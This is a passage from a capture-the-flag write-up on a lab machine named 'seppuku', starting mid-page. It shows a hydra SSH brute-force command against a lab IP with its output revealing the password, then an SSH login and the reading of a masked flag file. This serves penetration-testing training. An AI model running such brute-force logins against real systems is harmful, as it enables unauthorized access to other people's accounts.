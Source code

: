 > `passwd.bak` and `shadow.bak` accounts are useless too.
{: .prompt-danger }

Now we have only the files `password.lst` and `hostname` left which may can be used in some kind of brute force attack.  

> Performing a brute force attack with the provided `password.lst` and username `root` does not work.
{: .prompt-danger }

> Testing the `hostname` as the username in combination wiht `password.lst` in a brute force attack might be more fruitful.
{: .prompt-info }

## hydra
```bash
$ hydra -l seppuku -P list.lst 192.168.153.90 ssh                          
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-08 16:46:30
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 92 login tries (l:1/p:92), ~6 tries per task
[DATA] attacking ssh://192.168.153.90:22/
[22][ssh] host: 192.168.153.90   login: seppuku   password: eeyoree
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-02-08 16:46:50
```
> Yes! Logging in with `seppuku:eeyoree` seems to work.
{: .prompt-info }

---

# post exploitation

## ssh login and first flag

```bash
$ ssh seppuku@192.168.153.90
seppuku@192.168.153.90's password: 
Linux seppuku 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
seppuku@seppuku:~$ ls
local.txt
seppuku@seppuku:~$ cat local.txt 
0******************************e
```
